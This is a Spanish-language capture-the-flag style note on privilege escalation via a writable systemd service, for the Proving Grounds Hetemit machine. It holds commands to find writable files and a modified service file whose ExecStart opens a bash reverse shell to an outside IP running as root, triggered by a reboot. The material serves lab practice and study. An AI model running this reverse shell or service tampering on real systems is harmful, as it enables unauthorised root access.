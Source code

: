 
## DESCRIPTION
En este ejemplo encontramos otro servicio que podemos editar  y cuando reseteamos el equipo se ejecuta:

![[Pasted image 20230627204345.png]]

#### Mas información
* https://al1z4deh.medium.com/proving-grounds-hetemit-8469d0a3f189
* https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/hetemit/9-privesc-greater-than-root


## EXPLOITATION

1. Localizamos el servicio editable o linpeas o manual

```
find / -type f -maxdepth 2 -writable

find / -type d -maxdepth 2 -writable
```

3. Editamos el servicio con nuestra reverse shell

ORIGINAL:

```
[cmeeks@hetemit k]$ cat /etc/systemd/system/pythonapp.service

[Unit]

Description=Python App

After=network-online.target

[Service]

Type=simple

WorkingDirectory=/home/cmeeks/restjson_hetemit

ExecStart=flask run -h 0.0.0.0 -p 50000

TimeoutSec=30

RestartSec=15s

User=cmeeks

ExecReload=/bin/kill -USR1 $MAINPID

Restart=on-failure

[Install]

WantedBy=multi-user.target
```

Cambiamos `ExecStart` con el comando y `user` con root

```
cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.195/18000 0>&1'
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target

```

4. Nos ponemos a la escucha

5. Reseteamos el equipo con sudo

```
sudo reboot
```


## MACHINES

* Hack The Box: 
* PG: Hetemit

**!!NOTA IMPORTANTE!!** 